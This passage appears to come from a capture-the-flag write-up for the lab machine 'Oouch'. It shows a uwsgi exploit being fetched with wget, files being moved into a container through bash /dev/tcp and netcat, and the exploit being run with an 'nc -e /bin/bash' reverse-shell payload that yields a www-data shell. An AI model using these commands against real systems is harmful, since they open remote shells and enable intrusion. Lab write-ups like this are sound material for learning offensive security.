 Start a web server from you attacker machine.

On oouch machine retrieve the uwsgi exploit.

```
$ cd /tmp
$ wget http://10.10.15.142:8000/uwsgi_exp.py
```

Now we need to transfer then into the docker container but there aren't many binaries inside. So we will have to use a [GTFOBins tricks](https://gtfobins.github.io/gtfobins/bash/#file-download) with bash to download the file inside the container.

First start TCP socket on oouch machine.

```
$ nc -l -p 12345 < /tmp/uwsgi_exp.py
$ nc -l -p 12345 < /usr/bin/nc
```

And download it from the container:

```
$ export RHOST=172.17.0.1
$ export RPORT=12345
$ export LFILE=uwsgi_exp.py
$ bash -c 'cat < /dev/tcp/$RHOST/$RPORT > $LFILE'
$ export LFILE=nc
$ bash -c 'cat < /dev/tcp/$RHOST/$RPORT > $LFILE'
$ chmod +x nc
```

Note: since there is ssh, it was possible to transfer via `scp` too.

Let's exploit now!

On oouch:

```
nc -nlvp 12345
```

In the container:

```
$ python3 uwsgi_exp.py -m unix -u /tmp/uwsgi.socket -c "/home/qtc/nc -e /bin/bash 172.17.0.1 12345"
```

Now we obtained a `www-data` shell.

```
$ nc -nlvp 12345
listening on [any] 12345 ...
connect to [172.17.0.1] from (UNKNOWN) [172.18.0.3] 47676
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

### DBUS Exploitation
